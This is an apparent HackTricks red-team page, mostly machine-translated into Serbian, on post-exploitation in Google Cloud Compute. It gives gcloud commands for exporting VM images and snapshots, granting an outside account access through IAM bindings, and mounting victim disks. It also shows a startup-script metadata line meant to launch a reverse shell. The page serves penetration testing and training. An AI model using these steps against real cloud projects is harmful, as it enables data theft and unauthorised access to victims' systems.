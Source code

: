 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (Mreženje) proverite:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Izvoz i inspekcija slika lokalno

Ovo bi omogućilo napadaču da **pristupi podacima sadržanim unutar već postojećih slika** ili **napravi nove slike pokrenutih VM-ova** i pristupi njihovim podacima bez pristupa pokrenutom VM-u.

Moguće je izvesti sliku VM-a u bucket, a zatim je preuzeti i montirati lokalno pomoću komande:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Da bi se izvršila ova akcija, napadač može zatrebati privilegije nad skladišnim kanti i sigurno **privilegije nad cloudbuild** jer je to **usluga** koja će biti zatražena da izvrši izvoz.\
Pored toga, da bi ovo funkcionisalo, codebuild SA i compute SA trebaju privilegovane dozvole.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` treba:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` treba:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Izvoz i inspekcija snimaka i diskova lokalno

Nije moguće direktno izvesti snimke i diskove, ali je moguće **transformisati snimak u disk, disk u sliku** i prateći **prethodni odeljak**, izvesti tu sliku da bi se inspektovala lokalno.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcija slike prilikom kreiranja VM-a

Sa ciljem pristupa **podacima pohranjenim u slici** ili unutar **aktivnog VM-a** iz kojeg je napadač **napravio sliku,** moguće je omogućiti spoljašnjem nalogu pristup slici:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
и онда креирајте нови ВМ из тога:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ako niste mogli da date pristup svom spoljašnjem nalogu preko slike, mogli biste da pokrenete VM koristeći tu sliku u projektu žrtve i **naterate metapodatke da izvrše reverznu ljusku** za pristup slici dodajući parametar:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Sa ciljem pristupa **podacima pohranjenim na disku ili snimku, možete transformisati snimak u disk, disk u sliku i pratiti prethodne korake.**

Ili možete **dodeliti spoljašnjem nalogu pristup** disku (ako je početna tačka snimak, dodelite pristup snimku ili kreirajte disk iz njega):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Priključite disk** na instancu:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH u VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifikujte disk**: Kada ste unutar VM-a, identifikujte novi disk tako što ćete nabrojati disk uređaje. Obično ga možete pronaći kao `/dev/sdb`, `/dev/sdc`, itd.
3. **Formatirajte i montirajte disk** (ako je to novi ili sirovi disk):
*   Kreirajte tačku montiranja:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montirajte disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ako **ne možete dati pristup spoljnim projektima** za snapshot ili disk, možda ćete morati da **izvršite ove radnje unutar instance u istom projektu kao snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
